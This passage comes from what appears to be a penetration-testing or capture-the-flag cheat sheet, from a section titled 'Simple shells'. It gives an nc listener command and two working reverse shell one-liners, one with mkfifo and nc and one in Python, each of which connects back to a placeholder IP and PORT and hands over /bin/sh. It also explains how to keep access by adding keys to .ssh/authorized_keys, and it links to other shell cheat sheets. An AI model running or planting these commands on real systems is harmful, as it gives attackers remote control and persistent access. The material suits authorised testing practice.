 5. Simple shells

http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet is an amazing list of reverse shells if the ones listed here don't work.

#### Opening a connection on your computer:
- `nc -nlvp PORT`
	- This opens the port and waits for a connection to create a reverse shell

#### Common reverse shell commands:
- `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP PORT >/tmp/f`
- `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

#### Opening a bind shell
Bind shells aren't as common due to the fact that they are more vulnerable to being "stolen" as well as outgoing connections are harder to flag as bad traffic than incoming connections. I will not list them since I've never had a use for them, but https://ashr.net/bind/and/reverse/shell/cheatsheet/windows/and/linux.aspx is a good place to find some.

### Upgrading to an interactive shell
Sometimes you have a shell that lets you run commands but no tab completion, arrow key movement, etc.
- The first way is to edit the .ssh/authorized_keys of a user then ssh in. This also helps with ensuring you still have the conneciton to the server even if you patch the exploit/the connection drops
	- Note that some machines may not have ssh enabled or on the default port. Check your nmap scan!
- https://netsec.ws/?p=337 is a good list of how to spawn a tty shell, python being the one I use the most.

Sometimes you'll end up where you can't seem to get a tty shell no matter what you do. This is 